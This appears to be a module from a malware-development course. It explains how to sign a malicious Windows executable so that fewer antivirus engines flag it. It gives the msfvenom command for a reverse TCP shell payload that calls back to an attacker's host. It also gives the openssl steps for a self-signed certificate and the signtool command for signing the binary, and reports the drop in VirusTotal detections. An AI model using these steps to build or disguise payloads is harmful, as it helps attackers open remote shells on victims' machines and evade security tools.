





Introduction
When a user attempts to download a legitimate executable file from the internet, it is often signed by the company as a way of proving to the user that it is a trustworthy executable. Although security solutions will still scan the executable, additional scrutiny would've been placed on it had the binary been unsigned.
This module walks through the steps required to sign a malicious binary which can increase its trustworthiness. The module will be demonstrating binary signing on an executable generated via Msfvenom: msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o maldev.exe
Testing Binary Detection Rate
Before starting, the binary was uploaded to VirusTotal in order to see the detection rate before signing the binary. The detection rate is quite high with 52/71 vendors flagging the file as being malicious.

Obtaining a Certificate
There are several ways to get a certificate:
Generating a Certificate
This demo will use the self-signed certificate route. This requires openssl which is pre-built into Kali Linux.
To create a certificate first generate the required pem files. The tool requires information to include inside the certificate.
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365

Next, generate a pfx file using the pem files. The tool will ask for a key phrase to be entered.
openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx

Signing The Binary
Signing the binary requires signtool.exe which is part of Windows SDK. It can be installed here. Once that's done, the binary can be signed using the command below.
signtool sign /f sign.pfx /p <pfx-password> /t http://timestamp.digicert.com /fd sha256 binary.exe
Viewing the binary's properties will now show a "Digital Signature" tab which shows the details of the certificate that was used to sign the binary. It also shows a warning that the certificate is not trusted.

Testing Signed Binary Detection Rate
The binary is re-uploaded to VirusTotal to check if there was an impact on the detection rate. Unsurprisingly, the number of security solutions that flagged the file dropped from 52 to 47. Initially, it may not appear as a massive drop in detection rate but it must be emphasized that no changes were made to the file besides signing it with a certificate.
